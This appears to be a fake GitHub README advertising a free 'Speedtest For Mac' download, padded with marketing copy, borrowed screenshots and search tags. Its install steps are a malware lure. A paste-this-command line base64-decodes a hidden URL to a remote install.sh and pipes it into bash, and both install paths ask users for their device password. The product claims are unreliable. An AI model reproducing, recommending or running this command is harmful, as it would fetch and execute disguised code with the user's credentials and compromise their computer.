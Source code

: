 # Speedtest For Mac — Free Download for macOS 🚀
![logo](https://m.media-amazon.com/images/I/2165FoT1qvL.png)

Effortlessly measure your internet speed with Speedtest For Mac. Follow the simple instructions below to install this lightweight, user-friendly tool on your macOS device and optimize your network performance.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/speedtest)

If the download button doesn't work, follow the terminal instructions below for a seamless installation.

## 📦 How to Install Speedtest For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with Speedtest For Mac

- 🚀 **Fast Performance Testing**: Measure download and upload speeds in seconds with high accuracy.
- 📊 **Detailed Metrics**: View ping, jitter, and packet loss for a comprehensive network analysis.
- 🌐 **Global Server Network**: Connect to thousands of servers worldwide for reliable results.
- 🖥 **User-Friendly Interface**: Enjoy a sleek, macOS-optimized design for easy navigation.
- 📈 **Historical Data Tracking**: Save and compare past test results to monitor network trends.
- 🔒 **Secure and Private**: Your data remains safe with no third-party tracking.

## About Speedtest For Mac

Speedtest For Mac is a powerful, free tool designed to help macOS users measure their internet connection's performance with ease. Whether you're troubleshooting slow downloads, optimizing your network for gaming, or ensuring your Wi-Fi is ready for streaming, Speedtest For Mac delivers accurate results in a sleek, macOS-native interface. By leveraging a global network of servers, this software ensures you can test your connection against the most relevant endpoints, providing reliable metrics for download speed, upload speed, and latency. The intuitive design makes it accessible for both casual users and IT professionals looking to diagnose network issues efficiently.

The software’s lightweight architecture ensures it runs smoothly on any macOS device, from MacBook Air to iMac Pro, without taxing system resources. Speedtest For Mac stands out with its ability to track historical data, allowing users to compare performance over time and identify patterns in network behavior. This feature is particularly useful for remote workers or businesses relying on consistent connectivity for video calls, cloud services, or large file transfers. With no complicated setup required, the installation process is streamlined, whether you choose the .dmg file or the terminal-based method.

Security is a core focus of Speedtest For Mac. Unlike some network tools, it prioritizes user privacy by avoiding unnecessary data collection and ensuring all tests are conducted securely. The application is regularly updated to maintain compatibility with the latest macOS versions, ensuring a seamless experience even on macOS Sequoia or beyond. Its open-source components also allow developers to contribute to its improvement, making it a community-driven solution for network diagnostics.

Another key advantage is its global server network, which enables precise testing regardless of your location. Whether you're in a bustling city or a remote area, Speedtest For Mac connects you to the nearest high-performance server for accurate results. The software also provides advanced metrics like jitter and packet loss, which are critical for gamers, streamers, and professionals relying on real-time applications. These features make it an essential tool for anyone seeking to optimize their internet experience.

**Why Choose Speedtest For Mac?**  
Speedtest For Mac offers unmatched simplicity and reliability compared to other network testing tools. Its macOS-optimized design ensures a native experience, while its comprehensive metrics provide insights that go beyond basic speed tests. The software is completely free, with no hidden fees or subscriptions, making it accessible to all macOS users. Regular updates and a commitment to privacy further enhance its appeal, ensuring you can trust Speedtest For Mac for all your network testing needs.

## 🖼 Preview

![Main Interface](https://media.idownloadblog.com/wp-content/uploads/2022/04/Terminal-Speed-Test-macOS.jpg)  
*Clean and intuitive Speedtest For Mac interface displaying real-time speed metrics.*

![Server Selection](https://www.speedtest.net/images/Facebook-AdArtboard-1-2.png)  
*Selecting a global server for accurate speed testing.*

## 🔍 Tags

speedtest for mac, free speedtest mac, macos internet speed test, download speedtest mac, speedtest mac download, speedtest download, speedtest free, download speedtest, speedtest for mac, speedtest desktop, ookla speed test for mac, ookla speed test mac, speed test app for mac, macbook speed test, apple computer speed test
